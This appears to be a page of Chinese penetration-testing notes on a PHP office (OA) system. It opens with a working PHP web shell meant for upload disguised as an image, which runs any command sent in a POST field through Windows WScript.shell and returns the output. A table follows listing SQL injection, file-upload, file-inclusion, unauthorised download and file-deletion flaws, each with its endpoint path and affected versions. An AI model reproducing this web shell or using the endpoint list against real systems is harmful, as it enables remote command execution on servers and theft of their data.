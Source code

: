 **Windows系统组件COM上传图片马**
```php
<?php
  $command = $_POST['pass'];
  $wsh = new COM('WScript.shell');
  $exec = $wsh->exec("cmd/c".$command);
  $stdout = $exec->StdOut();
  $stroutput = $stdout->ReadAll();
  echo $stroutput;
```

## 历史漏洞


|漏洞名称|访问路径|影响版本|
|:---:|:---:|:---:|
|report_bi.func.php sql联合注入漏洞|`/general/bi_design/appcenter/report_bi.func.php`|<=11.6|
|/recv/register/insert sql盲注漏洞|`/general/document/index.php/recv/register/insert`|<=11.6|
|swfupload_new.php 未授权sql盲注漏洞|`/general/file_folder/swfupload_new.php`|<=11.5|
|get_index_data.php sql盲注漏洞|`/general/email/inbox/get_index_data.php`|<=11.7|
|release.php sql盲注漏洞|`/general/crm/studio/modules/EntityRelease/release.php`|2011-2013|
|delete_cascade.php sql任意注入漏洞|`/general/hrms/manage/hrms.php`|<=11.10|
|go.php sql报错注入漏洞|`interface/go.php`|<=11.7|
|use_finger.php sql报错注入漏洞|`/inc/finger/use_finger.php`|<=2014|
|search_excel.php sql报错注入漏洞|`/general/ems/query/search_excel.php`|<=2014|
|record_detail.php sql延时注入漏洞|`/pda/reportshop/record_detail.php`|<=11.6|
|export_data.php sql延时注入漏洞|`/general/system/approve_center/flow_data/export_data.php`|<=11.10|
|RepdetailController.php sql盲注漏洞|`/general/appbuilder/web/report/repdetail/edit`|<=11.5|
|Calendar.php sql盲注漏洞|`/general/appbuilder/web/calendar/calendarlist/getcallist`|<=11.5|
|WorkbenchController.php sql盲注漏洞|`/general/appbuilder/web/calendar/calendarlist/getcallist`|<=11.9|
|applyprobygroup sql延时注入漏洞|`/general/appbuilder/web/officeproduct/productapply/applyprobygroup`|<=11.7|
|finish sql延时注入漏洞|`/general/document/index.php/send/approve/finish`|2015|
|meetingreceipt sql堆叠注入漏洞|`/general/appbuilder/web/meeting/meetingmanagement/meetingreceipt`|<=11.5|
|upload/upload.php 文件上传漏洞|`module/upload/upload.php`|<=11.3|
|utils/upload.php 文件上传漏洞|`general/reportshop/utils/upload.php?action=upload`|2015|
|netdisk/upload.php 文件上传漏洞|`/general/netdisk/upload.php`|<=11.9|
|api.ali.php 文件上传漏洞|`mobile/api/api.ali.php`|<=11.8|
|staff_info/update.php 文件包含漏洞|`general/hr/manage/staff_info/update.php`|<=11.8|
|down.php 未授权数据库备份文件下载漏洞|`/inc/package/down.php`|<=11.8|
|exportLog.php 未授权文件下载漏洞|`/general/approve_center/archive/exportLog.php`|2017旧版以前|
|get_file.php 未授权文件下载漏洞|`/module/AIP/get_file.php`|2017旧版以前|
|export.php 未授权文件下载漏洞|`general/crm/apps/crm/include/import/export.php`|2011|
|action_upload.php 未授权上传漏洞|`/module/ueditor/php/action_upload.php`|ueditor 1.3.6版本|
|print.php 文件删除漏洞|`/module/appbuilder/assets/print.php`|<=11.6|